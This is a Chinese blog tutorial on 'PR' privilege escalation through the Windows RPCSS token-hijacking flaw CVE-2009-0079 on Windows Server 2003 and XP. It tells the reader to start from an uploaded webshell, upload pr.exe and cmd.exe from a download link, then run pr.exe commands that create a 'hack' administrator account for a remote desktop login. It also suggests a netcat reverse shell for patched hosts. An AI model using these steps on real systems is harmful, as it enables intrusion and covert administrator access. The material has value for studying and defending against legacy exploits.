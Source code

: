 **目录**

[提权利用的漏洞](#t0)

[PR提权](#t1)

* * *

### 提权利用的漏洞

**Microsoft Windows RPCSS服务隔离本地权限提升漏洞**

RPCSS服务没有正确地隔离 NetworkService 或 LocalService 帐号下运行的进程，本地攻击者可以利用令牌劫持的方式获得权限提升。成功利用此漏洞的攻击者可以完全控制受影响的系统，攻击者可随后安装程序；查看、更改或删除数据；或者创建拥有完全[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)的新帐户。

BUGTRAQ  ID: 34443   
CVE(CAN) ID: CVE-2009-0079

发布日期：2009-04-14   
更新日期：2009-04-24

受影响系统：   
Microsoft Windows XP x64 SP2   
Microsoft Windows XP x64   
Microsoft Windows XP SP3   
Microsoft Windows XP SP2   
Microsoft Windows Server 2003 SP2   
Microsoft Windows Server 2003 SP1

也就是说只有Windows Server 2003和windows xp系统能够使用 pr [提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020)。

### PR提权

> 以下环境，Windows Server 2003

很多时候，当我们上传了一句话木马之后，想要进行一些操作。比如，查看当前用户的身份，这时会发现权限不够，当前的命令行只对网站当前目录下的文件具有操作权限，对其他目录和系统都没有权限，这时我们就需要提权了。

![](https://img-blog.csdnimg.cn/20181127110120754.png)

我们把下面两个程序上传到网站目录下去

程序链接：链接: [https://pan.baidu.com/s/1ibgYfY38kBLsbq72NsVEHg](https://pan.baidu.com/s/1ibgYfY38kBLsbq72NsVEHg)    提取码: unyc 

![](https://img-blog.csdnimg.cn/20181127110627265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后执行下面这条命令，把当前终端的执行程序设置成我们上传的 cmd.exe

```
setp  "C:\website\站酷爱装网V2012版\UploadFiles\cmd.exe"
```


然后我们就可以做我们想做的任何事情了。我们的命令用双引号引住，前面加上 pr.exe

```
pr.exe "net user hack 123 /add"   #新建一个hack用户，密码为 123      
pr.exe "net localgroup administrators hack /add" #将hack用户加入administrators管理员组
```


![](https://img-blog.csdnimg.cn/20181127111349720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 接着，我们就可以用远程桌面登录了，前提是目标主机开启了3389远程端口

![](https://img-blog.csdnimg.cn/20181127111958339.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**但是**，如果目标机打上了 **KB952004补丁** 的话，是没有办法使用pr进行提权的。

这时，我们可以尝试上传nc，反弹 **c:\\windows\\system32\\cmd.exe** 。

![](https://img-blog.csdnimg.cn/20181203190612483.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20181203190628552.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

相关文章：[Netcat瑞士军刀的简单使用](https://blog.csdn.net/qq_36119192/article/details/84099221) 

                  [UDF提权](https://blog.csdn.net/qq_36119192/article/details/84863268)